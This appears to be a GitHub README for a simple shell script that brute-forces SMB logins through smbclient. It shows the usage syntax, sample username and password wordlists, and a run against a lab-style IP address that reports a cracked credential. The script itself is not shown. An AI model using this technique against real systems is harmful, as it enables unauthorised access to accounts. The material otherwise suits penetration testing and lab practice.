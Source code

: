 # VSSB
Very simple SMB brute force.
\
Some complex tools may fail sometimes.
\
This script just tries to login via "smbclient".
\
```
usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123
```
\
Considering the following file (containing a list of users):
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
smith
luca
```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password
```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./vssb.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.123

starting...

Found WORKGROUP@smith:Thestrokes23

done!
```


